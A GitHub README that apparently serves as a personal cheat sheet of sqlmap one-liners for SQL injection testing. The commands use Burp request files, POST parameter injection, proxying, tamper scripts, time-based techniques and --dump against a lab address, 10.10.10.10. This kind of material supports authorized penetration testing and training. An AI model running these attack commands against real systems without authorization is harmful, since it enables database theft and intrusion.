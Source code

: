 # SQLMapExamples
A list of sample SQL Map Injection Commands.  SQLMap is a powerful tool for identifying SQL injection vulnerabilities.  However, everytime I use it, I struggle with the parameters.  The following is a list of SQLMap one-liners that I have used in the past and keep here so I can copy and paste and modify the parameters are required.

Reference:
https://github.com/sqlmapproject/sqlmap/wiki/Usage

## SQLMap and BurpSuite
These days, all the cool kids will use a Request file generated from a proxy like BurpSuite to save a bunch of parameter typing.
In burpsuite, when you are viewing a request in the proxy -> intercept tab, you can right click on the request and select "Copy to file" and save the request to a local file.
Next you can point SQLMap to that request file using the -r parameter:
```bash
sqlmap -r request.req --dump --batch
```

This can save you having to dial in all the parameters to setup our SQL injection.

## SQLMap Injection on POST parameter with a PHP Session ID
Here we have simple sql injection test agianst a single POST parameter
```bash
sqlmap -u "http://10.10.10.10/profile.php" --data="name=1234567890" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --delay=0 --timeout=30 --retries=0 --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```

## SQLMap Injection on POST parameter at a particular position using the astrix (*) notation 
Here is the same injection attack as above but using the astrix to inject at a predetermined postion for a MySQL database running on a Linux platform:
```bash
sqlmap -u "http://10.10.10.10/profile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```


## SQLMap Injection on POST parameter at a particular position using the astrix (*) notation 
Here is a SQL injection attack which has been configured to run through a Proxy (BurpSuite)

```bash
sqlmap -u "http://10.10.10.10/rofile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```

## SQLMap test only 1 parameter "name" and risk 3 level 5 through a proxy connection 
Here is a sql injection on a name parameter for a login form at a set position on the name field. Also there is a custom written tamper (that is included in this repository) that will replace <here> with 3 random characters, so that a unique user is created with each SQLMap injection test.  
You can  install this tamper simply by coping the file to your /usr/share/sqlmap/tamper folder (on Kali at least)
  
```bash
sqlmap -u "http://10.10.10.10:80/index.php" --data="name=12345678901*&email=test<here>@test.com&password=test12345" --method="POST" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 -p "name" --dbms="MySQL" --os=Linux --level=5 --risk=3 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N" --tamper=chargen.py
```

## SQLMap test only blind timing based SQL injection techniques 
Testing only the timing based attacks using the --technique=T parameter
```
sqlmap -u "http://10.10.10.10/profile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=5 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N" --technique=T
```

## Create a custom SQLMap tamper file
I ran into a scenario today where I wanted to test a SQL create new user page for a SQL injection.  
Tampers can be easily edited and replaced here:
```
cd/usr/share/sqlmap/tamper
```
```
sudo cp lowercase.py increment.py
```


